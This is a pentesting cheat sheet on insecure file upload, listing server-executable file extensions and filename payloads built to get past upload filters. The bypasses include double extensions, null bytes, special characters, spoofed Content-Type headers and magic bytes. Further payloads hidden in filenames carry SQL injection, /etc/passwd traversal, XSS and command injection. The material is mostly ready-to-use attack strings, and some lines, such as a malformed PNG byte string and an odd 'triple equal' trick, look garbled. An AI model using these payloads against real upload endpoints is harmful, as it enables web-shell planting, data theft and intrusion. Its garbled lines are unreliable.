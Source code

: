 # Insecure File Upload

## Defaults extensions

#### PHP

```bash
.php
.php2
.php3
.php4
.php5
.php7
.pht
.shtml
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
.htaccess
```

#### ASP

```
.asp
.aspx
.cer
.asa
.ashx
.asmx
.axd
.cshtm
.cshtml
.rem
.soap
```

#### JSP

```
.jsp
.jspx
.jsw
.jspf
.jsv
.wss
.do
.action
```

#### Perl

```
.pl
.pm
.cgi
.lib
```

#### Coldfusion

```
.cfm
.cfml
.cfc
.dbm
```

#### Flash

```
.swf
```

#### Erland Yaws Web Server

```
.yaws
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.png.php
file.png.Php5
file.php%00.png
file.php%0d%0a.png
file.php%0a.png
file.php\x00.png
```

### Null byte

```
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
file.php......
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.pHp5....
file.%E2%80%AEphp.jpg
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Triple equal

```
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```

## All Filename payloads

```csharp
.jpg.php
.php.jpg
.php.blah123jpg
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.php......
.php%20
.%E2%80%AEphp.jpg
.js'(select*from(select(sleep(20)))a)+'.extension
.png../../../../../../../etc/passwd
'"><img src=x onerror=alert(document.domain)>.extension
../../../tmp/lol.png
.; sleep 10;
```
